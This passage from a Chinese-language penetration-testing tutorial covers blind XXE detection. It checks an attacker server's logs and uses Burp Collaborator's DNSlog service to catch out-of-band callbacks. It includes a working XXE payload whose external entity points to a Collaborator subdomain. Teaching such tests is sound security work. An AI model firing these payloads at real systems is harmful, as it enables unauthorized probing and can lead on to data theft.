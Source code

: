 ![img](https://s2.loli.net/2023/03/13/v2JZrRBGsKuEVj9.jpg) 

#### 3.2.1.4.**查看服务器日志**

这里去攻击者服务器上查看一下日志，可以看到在服务器的访问日志中，查看到是存在一条访问日志的，那么就可以证明是支持外部实体的。

![img](https://s2.loli.net/2023/03/13/qb5G3UdlzkjgJNv.jpg) 

### 3.2.2.**无回显DNSlog测试案例**

上面的常规测试是需要我们自己搭建一个vps来进行测试，那么如果在刚开始测试的时候，不方便把自己的服务器地址暴露出来怎么办？

#### 3.2.2.1.**DNSlog方式**

通过DNSlog方式看服务器是否有DNS或者HTTP的请求。但是由于不确定因素以及处于安全角度来考虑使用外部的DNSlog不安全，那么可以使用burp中自带的有官方架设的默认公共服务器上的DNSlog服务器。

DNSlog位置：

![img](https://s2.loli.net/2023/03/13/GIK681o52rQEpsJ.jpg) 

点击后，会弹出一个创建，复制子域名即可。当请求中就会在下面的窗口中显示相关的请求信息。同时这个窗口不能关闭，若关闭了，那么就会销毁相关的信息。

![img](https://s2.loli.net/2023/03/13/7WMgFbrShidX51f.jpg) 

#### 3.2.2.2.**构建payload**

其实这里的payload和之前的payload基本一致。这里需要注意的是，我们复制的子域名是没有http://的需要我们自己添加上去。所以修改下面的payload的时候只需要把http://后面的内容替换即可，设置好后，点击发送。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

<!ENTITY % d SYSTEM "http://azdvir9dgkpw9k7rvah25bccz35tti.burpcollaborator.net">

%d;

]>
```

![img](https://s2.loli.net/2023/03/13/cjbMaZUrIeHzg8D.jpg) 

#### 3.2.2.3.**查看效果**

发送完成后，点击现在轮询，当然也可以在复制子域名后就开始轮询，这边可能需要稍等一会就能显示出来，因为设置的轮询是60秒。当看到结果后就可以判断是可以使用外部引入的。

![img](https://s2.loli.net/2023/03/13/iJvHYkyrBVZ713j.jpg) 

## 3.3.**总结**
